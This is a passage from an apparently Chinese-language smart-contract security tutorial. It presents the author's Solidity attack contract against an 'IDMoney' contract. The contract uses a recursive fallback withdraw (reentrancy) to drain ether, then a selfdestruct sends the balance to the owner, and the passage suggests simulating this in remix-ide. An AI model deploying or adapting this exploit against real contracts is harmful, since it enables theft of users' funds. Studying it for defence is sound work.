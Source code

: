 **（读者可以直接先根据上面的 `IDMoney` 合约代码写出自己的攻击合约代码，然后在测试环境中进行模拟）**

我实现的攻击合约代码如下：

```javascript
contract Attack {
    address owner;
    address victim;

    modifier ownerOnly { require(owner == msg.sender); _; }
    
    function Attack() payable { owner = msg.sender; }
    
    // 设置已部署的 IDMoney 合约实例地址
    function setVictim(address target) ownerOnly { victim = target; }
    
    // deposit Ether to IDMoney deployed
    function step1(uint256 amount) ownerOnly payable {
        if (this.balance > amount) {
            victim.call.value(amount)(bytes4(keccak256("deposit()")));
        }
    }
    // withdraw Ether from IDMoney deployed
    function step2(uint256 amount) ownerOnly {
        victim.call(bytes4(keccak256("withdraw(address,uint256)")), this, amount);
    }
    // selfdestruct, send all balance to owner
    function stopAttack() ownerOnly {
        selfdestruct(owner);
    }

    function startAttack(uint256 amount) ownerOnly {
        step1(amount);
        step2(amount / 2);
    }

    function () payable {
        if (msg.sender == victim) {
            // 再次尝试调用 IDCoin 的 sendCoin 函数，递归转币
            victim.call(bytes4(keccak256("withdraw(address,uint256)")), this, msg.value);
        }
    }
}
```

使用 `remix-ide` 模拟攻击流程：
